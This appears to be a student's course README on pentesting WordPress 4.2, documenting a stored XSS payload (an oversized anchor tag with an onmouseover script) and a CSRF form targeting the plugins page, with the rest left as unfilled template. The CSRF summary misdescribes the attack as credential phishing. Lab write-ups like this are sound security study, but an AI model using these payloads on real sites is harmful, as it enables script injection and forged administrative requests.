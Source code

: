 # Project 7 - WordPress Pentesting

Time spent: **X** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. Unauthenticated Stored Cross-Site Scripting
  - [ ] Summary: This is a XSS attack which stores a script in the comment section of a post. When an unaware user navigates to the link, they are constantly bombabred with the hello world pop-up
    - Vulnerability types: XSS
    - Tested in version: 4.2
    - Fixed in version: 4.2.1
  - [ ] GIF Walkthrough: https://gph.is/2Gf2eF0
  - [ ] Steps to recreate: I copied the code from the Kali Linux and added a bunch As to the end of the script to overload the comment. I then pasted the script onto the comment section and the code is executed
  - [ ] Affected source code:<a title='x onmouseover=alert(unescape(/hello%20world/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px  AAAAAAAAAAAA...[64 kb]..AAA'></a>
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
    
2. Filesystem Credentials Dialog CSRF
  - [ ] Summary: This attack manipulates the login page and uses a fake login button to lure the user into logging into a malicious website set up by the attacker, stealing their usernames and passwords. 
    - Vulnerability types: CSRF
    - Tested in version:4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: https://gph.is/2L2LCE3
  - [ ] Steps to recreate: I first deleted the login original login button on wordpress. Then I used html code given on the website and pasted that onto the login form so that it looks like a regular login button. Information that are being inputted into that website are then captured by burp and the attacker can use those credentials to login.
  - [ ] Affected source code: 
  <html>
   <body>
      <form action="http://<target>/wp-admin/plugins.php" method="POST">
         <input type="hidden" name="hostname" value="sumofpwn.nl" />
         <input type="hidden" name="connection_type" value="ftp" />
         <input type="hidden" name="password" value="password" />
         <input type="submit" value="Submit request" />
      </form>
   </body>
</html>
    - https://sumofpwn.nl/advisory/2016/cross_site_request_forgery_in_wordpress_connection_information.html
    
1. (Required) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types: 
    - Tested in version: 
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1]
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
1. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
